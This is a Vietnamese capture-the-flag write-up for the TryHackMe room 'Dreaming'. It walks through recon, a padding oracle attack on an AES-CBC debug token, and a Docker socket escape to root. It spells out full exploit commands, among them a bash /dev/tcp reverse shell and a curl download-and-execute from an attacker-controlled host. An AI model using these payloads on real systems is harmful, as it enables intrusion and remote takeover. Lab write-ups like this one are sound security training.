

# [THM] Dreaming write-up

- IP: 10.10.11.84

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.11.84

<p align="center">
    
</p>

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 8080 chạy dịch vụ HTTP 

Khi cập với port 8080 ta được web có giao diện như đưới


Sau khi khám phá thì phát hiện ra `/login.html` và `/debug.html`


Ngoài 2 tệp bên trên ra ta còn phát hiện `/exec.html` khi scan thư mục ẩn bằng ffuf nhưng rta không có quyền truy cập, tôi nghĩ rằng chúng ta phải tìm cách đăng nhập để có thể truy cập được tệp đó


Quay trở lại với trang login và debug sau khi kiểm tra thì thấy source của `debug.html` có get 1 api lạ, để gửi mã gì đó tới `/api/debug` và lấy mã thông báo xác thực 

## Exploit


Phân tích và thử truy cập thì ta nhận được kết quả như hình bên dưới


Sau khi thử thêm bất kì ký tự gì vào url thì đều bị lỗi, kết hợp với thông báo ở `/debug.html` ta có thể tấn công bằng `Padding Oracle` (một số keyword chúng ta có thể search đó là `AES/CBC/PKCS`, `Oracle`, `Padding error`)

Cùng làm rõ lỗ hổng này **Oracle Padding** (hay còn gọi là **Oracle Padding Attack** hoặc **Padding Oracle Attack**) là một kiểu tấn công mật mã thuộc nhóm **side-channel attacks** nhằm khai thác cách hệ thống phản hồi lỗi khi giải mã dữ liệu được padding sai, thường trong các thuật toán mã hóa **block cipher** như **AES trong chế độ CBC (Cipher Block Chaining)**

### Chế độ mã hóa CBC
 **Mã hóa**

- Khối đầu tiên: Plaintext được XOR với Initialization Vector (IV), sau đó được mã hóa bằng khóa bí mật
- Các khối tiếp theo: Mỗi khối plaintext được XOR với khối ciphertext trước đó, sau đó được mã hóa


 **Giải mã**

- Giải mã khối ciphertext: Mỗi khối ciphertext được giải mã bằng khóa bí mật
- XOR với khối trước đó: Kết quả giải mã được XOR với khối ciphertext trước đó (hoặc IV đối với khối đầu tiên) để thu được plaintext


**Padding là gì**

Khi plaintext không đủ độ dài để tạo thành một khối đầy đủ, hệ thống sẽ thêm **padding** để lấp đầy khối.

**Dấu hiệu**

- Lỗi trả về đã cho ta biết hệ thống cố thể bị khai thác bởi lỗ hổng này, cụ thể với hệ thống đang khai thác

**Một số công cụ kiểm thử, khai thác**

- `padre`: https://github.com/glebarez/padre
- `padbuster`: https://github.com/AonCyberLabs/PadBuster

Ta sẽ đi vào khai thác, tôi sẽ sử dụng `padbuster`. Đầu tiên cần install công cụ trên máy attacker
```bash
sudo apt install padbuster
```
Sau đó chạy câu lệnh sau để thực hiện khai thác
```bash
padbuster http://10.10.11.84:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 2 -error "Decryption error"
```
Câu lệnh trên bao gồm

- `http://10.10.11.84:8080/api/debug/`: URL
- `39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4`: ciphertext/token
- `16`: Block size  --> Vì chúng ta biết AES đang được sử dụng, kích thước khối hợp lệ duy nhất cho AES là 128 Bit hoặc 16 Byte
- `encoding`: 2 là dạng uppercase hex
- `error`: Thông báo lỗi mà ứng dụng trả về khi xảy ra lỗi padding

Sau khi sử dụng công cụ trên thì gặp chút vấn đề và không thể tìm ra được plaintext chúng ta muốn


Vậy ta sẽ sử dụng công cụ còn lại đó là `padre` với câu lệnh 
```bash
padre -err "Decryption error" -e lhex -u 'http://10.10.11.84:8080/api/debug/$' '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'
```
Sau khi sử dụng tool này đã lấy được tài khoản và mật khẩu của stefan: `stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599` các chuỗi ký tự `\x0f` đằng sau là padding


Do một số trục trặc từ giờ trở đi ip sẽ là 
- **IP: 10.10.79.153**

## First flag

Sau khi đăng nhập bằng thông tin ở trên đã truy cập được vào `/exec.html` và đã lấy được flag đầu tiên


## Second flag

Sau khi lấy được flag và nhận thấy page này có thể nhập được command và thực thi, nếu là câu lệnh hợp lệ sẽ return OK 

<p align="center">
    
</p>

Ta sẽ nghĩ ngay tới reverse shell, tạo reverse shell bash `bash -i >& /dev/tcp/10.21.113.26/1234 0>&1` và **netcat listener** trên máy attacker để lắng nghe. Nhưng khi nhập trực tiếp vào ô input thì response trả về chỉ là OK và không thể truy cập được shell.

Nghĩ tới phương án tiếp theo có thể upload shell và thực thi đó là tạo server trên máy attacker sau đó download và thực thi trên máy nạn nhân. Tạo file `shell.sh` với nội dung reverse shell trên và `python3 -m http.server 2222`. Sau đó chạy `curl http://10.21.113.26:2222/shell.sh -o /tmp/shell.sh` trên ô input để download và tiếp tục chạy lần lượt các câu lệnh `chmod x+ /tmp/shell.sh` để cấp quyền. `bash /tmp/shell.sh` để thực thi. Tất cả các câu lệnh trên đều trả về status OK

<p align="center">
    
</p>

Khi đã truy cập được shell thì nhận thấy có vẻ như đang ở trong docker container vì thấy file `.dockerenv`. Sau một hồi tìm kiếm đã tìm thấy flag thứ 2 trong `env`

<p align="center">
    
</p>

## Final flag
Sau khi tìm kiếm một hồi và không thu thập được thông tin gì thêm thì tôi nghĩ cần phải thoát khỏi môi trường `docker`.

<p align="center">
    
</p>

Kiểm tra thì thấy `/var/run/docker.soc` có quyền đọc ghi. Mà docker socket được gắn bên trong container nên có thể tương tác với docker engine và thoát khỏi conainer bằng cách sử dụng nó

<p align="center">
    
</p>

Kiểm tra docker image sau đó chạy lệnh 
```bash
docker run -v /:/host --rm -it openjdk:11 bash
```
- `docker run`: để chạy 1 container từ 1 docker image
- `-v /:/host`: sử dụng đẻ mount thư mục từ máy chủ vào container, `/` là thư mục **root** của máy chủ, `/host` là thư mục trong container mà thư mục root của máy chủ được mount vào
- `--rm`: Docker sẽ tự động xóa container sau khi nó dừng lại
- `-it`: cho phép truy cập vào shell của container và làm việc trực tiếp trong container
- `openjdk:11`: tên và tag của docker image mà sử dụng để tạo container
- `bash`: Sau khi khởi tạo container tạo 1 shell bash

<p align="center">
    
</p>

Đã vào được root shell, thực hiện tìm kiếm flag với câu lệnh `find / -name "flag.txt" 2>/dev/null`

<p align="center">
    
</p>

## DONE